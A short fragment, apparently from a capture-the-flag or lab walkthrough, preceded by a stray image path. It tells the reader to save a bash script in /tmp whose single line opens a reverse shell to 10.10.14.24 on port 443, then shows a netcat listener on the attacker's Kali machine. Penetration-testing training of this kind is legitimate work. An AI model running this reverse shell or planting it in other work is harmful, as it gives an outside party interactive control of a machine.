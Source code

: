 Make bash file with this content && save it as "upload" in /tmp && add +x permissions  
  
#!/bin/bash  
  
bash -i >& /dev/tcp/10.10.14.24/443 0>&1  
  
^&&  
root@kali# nc -lnvp 443
